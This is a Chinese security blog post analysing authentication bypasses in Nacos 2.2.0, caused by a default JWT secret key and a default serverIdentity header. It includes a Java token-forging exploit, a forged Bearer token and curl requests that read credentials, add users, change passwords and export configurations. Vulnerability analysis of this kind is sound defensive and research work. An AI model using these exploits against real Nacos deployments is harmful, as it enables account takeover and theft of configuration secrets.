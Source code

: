 title: Nacos身份认证绕过漏洞分析
author: bmth
tags:
  - Nacos
categories:
  - java
top_img: 'https://img-blog.csdnimg.cn/a47fa56d59734849bc6536df1def5ef8.png'
cover: 'https://img-blog.csdnimg.cn/a47fa56d59734849bc6536df1def5ef8.png'
date: 2023-06-01 20:21:00
---
![](https://img-blog.csdnimg.cn/a47fa56d59734849bc6536df1def5ef8.png)

在2023的ciscn初赛中有一道Nacos配合Spring Cloud Gateway RCE的题，其实非常简单就是：[Nacos结合Spring Cloud Gateway RCE利用 ](https://xz.aliyun.com/t/11493)，然后配合CVE-2021-29441即可

其实近期还出现了一个认证漏洞，修复版本：[https://github.com/alibaba/nacos/releases/tag/2.2.0.1](https://github.com/alibaba/nacos/releases/tag/2.2.0.1)
![](https://img-blog.csdnimg.cn/edfc4d52b0214b17b3e00a48f023cd66.png)

在该版本中移除了默认鉴权插件中依赖的`nacos.core.auth.plugin.nacos.token.secret.key`默认值，来简单看一下


## 环境搭建
下载存在漏洞的版本：[https://github.com/alibaba/nacos/releases/tag/2.2.0](https://github.com/alibaba/nacos/releases/tag/2.2.0)
解压后执行
```bash
cd nacos/bin
#启动服务器
bash startup.sh -m standalone
#关闭服务器
bash shutdown.sh
```
随后访问`ip:8848/nacos`即可访问到web服务
![](https://img-blog.csdnimg.cn/9fc3be9afb674e2f9a93ea25fc3d38c6.png)

默认账号密码是nacos、nacos

修改startup.sh添加JVM远程调试
![](https://img-blog.csdnimg.cn/abaf1f257ffc4e91947341bc369f033a.png)

即可远程调试代码
## 漏洞分析
官方鉴权方面的文档：[https://nacos.io/zh-cn/docs/auth.html](https://nacos.io/zh-cn/docs/auth.html)
### JWT默认secretKey
我们查看一下配置文件`conf/application.properties`，发现`nacos.core.auth.plugin.nacos.token.secret.key`是一个默认值：
```
SecretKey012345678901234567890123456789012345678901234567890123456789
```
![](https://img-blog.csdnimg.cn/136bb819822c43949eb6152a0069ec42.png)

看到JWT加密的相关代码：`com.alibaba.nacos.plugin.auth.impl.JwtTokenManager#createToken(java.lang.String)`
![](https://img-blog.csdnimg.cn/0fc55f02b1e940bda08887b272be625a.png)

这里secretKey是一个默认的定值

接下来看到`com.alibaba.nacos.plugin.auth.impl.controller.UserController#login`登录逻辑中
![](https://img-blog.csdnimg.cn/ffc35c74c8e445c5870ddcd7f42edfd6.png)

如果配置文件中的`nacos.core.auth.system.type`为nacos或者ldap，就会进入`com.alibaba.nacos.plugin.auth.impl.NacosAuthManager#login`调用 resolveToken 和 validate0 函数对token进行认证
![](https://img-blog.csdnimg.cn/cfa6a2113a32490080d552b3f7204d8c.png)

resolveToken函数用于提取 Authorization 的值，若以Bearer开头，则取第7个字符以后的字符串返回
![](https://img-blog.csdnimg.cn/05de8413bdb248029ed57c7f0f57091c.png)

然后调用validate0函数用于校验JWT token
![](https://img-blog.csdnimg.cn/506512fcebcc4690a27aee46c7d76001.png)

知道了jwt的生成和校验逻辑、用户名以及jwt的默认私钥，就可以伪造jwt token了

exp：
```java
import io.jsonwebtoken.Claims;
import io.jsonwebtoken.Jwts;
import io.jsonwebtoken.SignatureAlgorithm;
import io.jsonwebtoken.io.Decoders;
import io.jsonwebtoken.security.Keys;

import java.util.Date;

public class key {
    public static void main(String[] args) {
        System.out.println(createToken("nacos"));
    }

    public static String createToken(String userName) {
        String key = "SecretKey012345678901234567890123456789012345678901234567890123456789";
        long now = System.currentTimeMillis();
        Date validity = new Date(now + 18000*1000L);

        Claims claims = Jwts.claims().setSubject(userName);
        return Jwts.builder().setClaims(claims).setExpiration(validity).signWith(Keys.hmacShaKeyFor(Decoders.BASE64.decode(key)), SignatureAlgorithm.HS256).compact();
    }
}
```
得到：
```
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY4NTYxNzQ1MH0.IxrFfeyBRAyqMHBBWL_Njppkt1pq_OoOprQOI6ec5fY
```
![](https://img-blog.csdnimg.cn/a05656db6dd445d29864ace0eb8637eb.png)

成功绕过鉴权获取到用户信息

### 默认自定义身份识别标志
基于三梦师傅发现的bypass方式`User-Agent: Nacos-Server`，[https://github.com/alibaba/nacos/issues/4593](https://github.com/alibaba/nacos/issues/4593)，最后官方建议是启用新机制去代替，避免被非法访问
```
### If turn on auth system:
nacos.core.auth.enabled=true

### Since 1.4.1, Turn on/off white auth for user-agent: nacos-server, only for upgrade from old version.
nacos.core.auth.enable.userAgentAuthWhite=false

### Since 1.4.1, worked when nacos.core.auth.enabled=true and nacos.core.auth.enable.userAgentAuthWhite=false.
### The two properties is the white list for auth and used by identity the request from other server.
nacos.core.auth.server.identity.key=serverIdentity
nacos.core.auth.server.identity.value=security
```
但是如果用户只开启了鉴权，并没有修改默认的key以及value的值，我们就可以利用这个bypass

鉴权的代码在`com.alibaba.nacos.core.auth.AuthFilter#doFilter`
![](https://img-blog.csdnimg.cn/5dcfadc1ff9a4288abd9b023deda8090.png)

可以看到如果成功匹配到了`application.properties`配置文件中的`nacos.core.auth.server.identity.key`以及`nacos.core.auth.server.identity.value`的值，就可以跳过鉴权

请求时加上header `serverIdentity: security`
![](https://img-blog.csdnimg.cn/98e11f1801a14ca480e5bf41ed504459.png)

成功绕过鉴权获取到用户信息
## 漏洞利用
我们可以通过官方文档找到许多可利用的接口：[https://nacos.io/zh-cn/docs/open-api.html](https://nacos.io/zh-cn/docs/open-api.html)

版本探测：
`/v1/console/server/state`
![](https://img-blog.csdnimg.cn/c67c4bdf23d8418a93a8d3857c54fae0.png)

然后最为人所知的poc就是(未开启auth)：
```
读取用户账号密码:
curl -X GET "http://192.168.111.178:8848/nacos/v1/auth/users?pageNo=1&pageSize=9&search=blur"

添加用户:
curl -X POST "http://192.168.111.178:8848/nacos/v1/auth/users?username=test&password=test"

任意用户密码更改:
curl -X PUT "http://192.168.111.178:8848/nacos/v1/auth/users?username=test&newPassword=test1234"
```

其实还可以获取到Namespace列表：`/v1/console/namespaces`
![](https://img-blog.csdnimg.cn/318ff08c538c485381edb351842c4f6b.png)

获取到Namespace的配置信息：`/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99&tenant=dev`
![](https://img-blog.csdnimg.cn/03c05fdf608447dc973f83fe701a6ec4.png)

也可以将配置文件导出：`/v1/cs/configs?export=true&tenant=public&group=&appName=&ids=`

默认启动是不开启鉴权的，并且按照官方文档开启鉴权后，可以使用默认的 serverIdentity 和 JWT 两种方式进行绕过鉴权

参考：
[【安全记录】- Nacos accessToken 权限认证绕过漏洞及思考](https://zhuanlan.zhihu.com/p/602021283)
[nacos token.secret.key身份认证绕过漏洞(QVD-2023-6271) ](https://xz.aliyun.com/t/12313)
[Nacos 身份认证绕过漏洞QVD-2023-6271](https://mp.weixin.qq.com/s/YlLcUe8O_O-MZR1jWd3m7Q)
[nacos漏洞(CNVD-2023674205)复现&踩坑记录](https://www.anquanke.com/post/id/288930)
